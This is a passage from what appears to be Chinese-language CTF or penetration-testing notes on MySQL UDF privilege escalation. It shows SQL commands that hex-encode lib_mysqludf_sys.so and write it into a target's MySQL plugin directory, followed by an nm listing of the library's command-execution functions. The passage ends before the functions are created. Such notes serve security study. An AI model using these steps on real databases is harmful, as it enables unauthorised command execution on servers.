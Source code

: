 4. 上传udf库文件

   1. 获取库文件的16进制

           ```
   # 这里的mysql交互命令行是本地的，随意开一个就行
   mysql> select hex(load_file('/security/ctf/tools_bar/4_注入攻击/SQLI/sqlmap-dev/data/udf/mysql/linux/64/lib_mysqludf_sys.so')) into outfile '/tmp/udf.txt';
   Query OK, 1 row affected (0.03 sec)
           ```

   2. 上传库文件

   ```
   # 这里的mysql交互命令行是目标数据库，7F454C46020打头的参数即/tmp/udf.txt的内容（注意去掉最后的换行）
   mysql> select unhex('7F454C46020...') into dumpfile '/usr/local/Cellar/mysql/5.7.22/lib/plugin/mysqludf.so';
   Query OK, 1 row affected (0.04 sec)
   ```

   上传库文件也可以通过临时表中转的方式，此处略。

#### 创建函数

1. 先在**本地**查看有哪些函数可用

```
nm -D lib_mysqludf_sys.so
                 w _Jv_RegisterClasses
0000000000201788 A __bss_start
                 w __cxa_finalize
                 w __gmon_start__
0000000000201788 A _edata
0000000000201798 A _end
0000000000001178 T _fini
0000000000000ba0 T _init
                 U fgets
                 U fork
                 U free
                 U getenv
000000000000101a T lib_mysqludf_sys_info
0000000000000da4 T lib_mysqludf_sys_info_deinit
0000000000001047 T lib_mysqludf_sys_info_init
                 U malloc
                 U mmap
                 U pclose
                 U popen
                 U realloc
                 U setenv
                 U strcpy
                 U strncpy
0000000000000dac T sys_bineval
0000000000000dab T sys_bineval_deinit
0000000000000da8 T sys_bineval_init
0000000000000e46 T sys_eval
0000000000000da7 T sys_eval_deinit
0000000000000f2e T sys_eval_init
0000000000001066 T sys_exec
0000000000000da6 T sys_exec_deinit
0000000000000f57 T sys_exec_init
00000000000010f7 T sys_get
0000000000000da5 T sys_get_deinit
0000000000000fea T sys_get_init
000000000000107a T sys_set
00000000000010e8 T sys_set_deinit
0000000000000f80 T sys_set_init
```